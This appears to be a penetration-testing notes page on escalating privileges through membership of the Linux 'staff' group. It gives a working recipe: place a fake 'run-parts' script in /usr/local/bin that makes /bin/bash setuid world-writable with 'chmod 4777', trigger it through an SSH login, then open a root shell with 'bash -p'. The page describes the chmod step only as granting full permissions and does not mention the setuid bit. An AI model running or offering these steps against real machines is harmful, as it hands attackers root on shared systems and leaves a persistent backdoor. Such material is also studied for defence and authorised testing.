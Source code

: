 ```yaml
---
description: Linux staff group, allows users to add local modifications to the system.
---
```


# Linux Staff group

Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name).

As staff its possible to write to `/usr/local/bin` and `/usr/local/sbin`

{% hint style="info" %}
In debian distributions, `$PATH` variable show that `/usr/local/` will be run as the highest priority, whether you are a privileged user or not.
{% endhint %}

### Staff group privilege escalation

To escalate privileges using staff group privileges we create a script and set permissions for /bin/bash to full read, write and execute for owner, group and everyone else using `chmod 4777`.

```bash
# Create a run-parts script
$ nano /usr/local/bin/run-parts

#! /bin/bash
chmod 4777 /bin/bash
```

Make the file executable

```bash
chmod +x /usr/local/bin/run-parts
```

Then start a new ssh connection to trigger run-parts

```bash
# Run bash in privileged mode as root
$ /bin/bash -p 
```

### What is run-parts?

{% hint style="info" %}
The `run-parts` command in Linux is a script used to run all executable files in a specified directory.
{% endhint %}

It’s used for managing and running scripts in directories like `/etc/cron.daily`, `/etc/cron.weekly`, and `/etc/cron.hourly`, which are used for scheduled tasks.

Using `run-parts` program to get root is possible, because most programs will run `run-parts` like with ssh-login and crontab.
